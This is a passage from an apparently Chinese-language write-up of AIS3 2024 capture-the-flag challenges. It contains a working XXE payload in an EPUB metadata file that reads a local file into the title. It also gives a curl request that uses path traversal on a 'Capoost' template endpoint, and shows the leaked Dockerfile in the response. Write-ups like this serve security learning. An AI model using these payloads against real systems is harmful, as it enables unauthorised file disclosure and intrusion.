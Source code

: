 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "file:///flag" >]>
<package version="3.0" xml:lang="en" unique-identifier="uid" xmlns="http://www.idpf.org/2007/opf" prefix="cc: http://creativecommons.org/ns#">
  <metadata xmlns:dc="http://purl.org/dc/elements/1.1/">
    <dc:title id="title">&xxe;</dc:title>
```

![epub](epub.webp)

Flag: `AIS3{LP#1742885: lxml no longer expands external entities (XXE) by default}`

### Capoost

題目作者：[Chumy](https://blog.chummydns.com/)\
題目難度：Medium\
[原始碼](https://github.com/Jimmy01240397/My-CTF-Challenges/tree/master/AIS3-2024/capoost/chal)\
[官方解](https://github.com/Jimmy01240397/My-CTF-Challenges/blob/master/AIS3-2024/capoost/chal/solve/expliot.py)\
解題人數：8/328（我沒解開）

#### 觀察

- 有 XSS 洞但是咖波不找我玩
- 應該不是 Jinra2 Template Injection
- `{{ . }}` 能留空但沒有抓到有用的資料
- 標題不能空
- /admin.html 有個 /template/upload，我猜是拿到 admin 後 Python format string injection？
- ~~我的 reCAPTCRA 難度快要高到我打不過了~~
- 空密碼能登入任何帳號但是不能註冊

#### LFI

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 8b677b62635d41099486dad9702c8be2.capoost.chals1.ais3.org:5487'
    -b $'session=MTcxNjY3NzU5OXxEdi1CQkFFQ180SUFBUkFCRUFBQUhfLUNBQUVHYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBTUFBV0U9fGESqar7EUnQY5gp3KfXOzoneFGuX9p0i5N5WYrzAs3a' \
    $'http://8b677b62635d41099486dad9702c8be2.capoost.chals1.ais3.org:5487/template/read?name=../Dockerfile'
HTTP/1.1 200 OK
Content-Length: 504
Content-Type: text/plain
Date: Sat, 25 May 2024 22:55:26 GMT
Server: nginx/1.25.5

FROM golang:1.19 as builder

LABEL maintainer="Chumy"

RUN apt install make

COPY src /app
COPY Dockerfile-easy /app/Dockerfile
```